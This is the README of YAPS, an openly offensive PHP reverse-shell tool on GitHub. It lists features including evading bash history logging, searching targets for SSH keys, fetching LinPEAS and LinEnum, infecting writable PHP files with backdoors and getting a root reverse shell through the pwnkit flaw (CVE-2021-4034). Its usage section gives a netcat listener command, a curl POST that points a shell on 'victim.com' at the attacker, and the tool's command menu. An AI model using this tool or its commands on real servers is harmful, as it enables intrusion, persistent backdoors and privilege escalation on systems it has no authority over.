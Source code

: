 # YAPS - **Y**et **A**nother **P**HP **S**hell

![image](https://user-images.githubusercontent.com/3837916/152913972-59b182f7-aa98-4b48-bb60-16dfdcc02fc3.png)


Yes, as the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there, but with some advantages. It is a single PHP file containing all its functions and you can control it via a simple TCP listener (e.g. `nc -lp 1337`).

In the current version (1.4), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs or have some suggestion for feature or improvement. =)


## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Does some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell
* Duplicate connections
* Auto update
* Infect PHP files with backdoors
* **[NEW] Auto reverse root shell via pwnkit (CVE-2021-4034)**

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via post request (`curl -x POST -d "x=ip:port" victim.com/yaps.php`);
3. Open yaps.php on browser, curl it or run via CLI;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
* 3.2 You can run via CLI with `php yaps.php ip port`
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!duplicate - Spawn another YAPS connection`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!infect - Infect writable PHP files with backdoors`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`
* `!pwnkit - Tries to exploit CVE-2021-4034 and spawn a root revere shell`

## Screenshots

<details>
  <summary>Click to expand screenshots section</summary>

### Current commands:
![image](https://user-images.githubusercontent.com/3837916/152596714-f852a58a-8e19-4869-915a-94316099c6e6.png)

### Some recon:
![image](https://user-images.githubusercontent.com/3837916/127257433-778b1322-c82e-4857-897f-0f3f459dcb2b.png)

### Root reverse shell through CVE-2021-4034
![pwn](https://user-images.githubusercontent.com/3837916/152597200-267704b9-0d50-4bcd-a68f-3c8ea6c74c21.gif)

### Spawning a interactive shell
![stabilize](https://user-images.githubusercontent.com/3837916/127260504-3e78ab69-c3ee-411e-8a7d-f89fe5356a7f.gif)

### Duplicating a YAPS session
![duplicate](https://user-images.githubusercontent.com/3837916/127260519-e672a78e-84c5-4a58-aa39-85dae94d9a50.gif)

### Poisoning PHP files
![infect](https://user-images.githubusercontent.com/3837916/127263363-e286357c-2be0-4890-8895-4bd5adadd3af.gif)

### Writing remote PHP code
![remotephp](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

### Password protected shell
![passprotected](https://user-images.githubusercontent.com/3837916/127260459-cc50203d-3ba6-408b-af0f-820756e9891d.png)

</details>


## Changelog

**v1.4 - 04/02/2022**
- Added `!pwnkit` to exploit CVE-2021-4034 and spawn a root reverse shell
- Improved `verify_update()` function
- Minor improvements

**v1.3.1 - 01/08/2021**
- Bugs fixed

**v1.3 - 28/07/2021**
- Added `!infect` to infect PHP files with backdoors
- Changed `!stabilize` payload (bugs fixed)

**v1.2.2 - 18/07/2021**
- Changed 'update' function
- Changed 'connect' function
- Improved 'download' function
- Bugs fixed

**v1.2.1 - 17/07/2021**
- Bugs fixed

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (`--update|-u`)
- Added CLI arguments (`--help|-h`)
- Added socket via arguments (`php yaps.php ip port`)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST (receives a single parameter)

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell

####  Arthepsy exploit for pwnkit
https://github.com/arthepsy/CVE-2021-4034/
